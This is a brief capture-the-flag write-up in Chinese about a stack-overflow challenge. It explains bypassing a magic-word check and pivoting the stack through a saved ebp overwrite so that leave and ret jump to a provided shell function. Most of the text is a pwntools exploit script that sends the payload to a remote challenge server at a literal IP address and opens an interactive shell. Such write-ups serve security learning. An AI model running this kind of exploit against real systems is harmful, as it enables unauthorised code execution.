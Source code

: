 栈溢出，提供shell函数，所以覆盖返回地址为提供的函数地址即可  
但是：1、有魔术字检测；2、只能覆盖到ebp，到不了ret  
所以leave的时候，跳到伪造的栈，ret弹出shell函数地址  

```python
from pwn import *

context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

debug = 0
if debug:
    p = process("./stack")
    stack = 0xffffdbc6
else:
    p = remote("35.237.220.217", 1337)
    stack = 0xffffdc86

win = 0x0804854d
#gdb.attach(proc.pidof(p)[0])

p.recvuntil("Send me food!!! Give me input")
payload = "A" * 4 + p32(win) + "B" * 42 + "utsa" + 'C' * 12 + p32(stack)
p.sendline(payload)

p.interactive()
```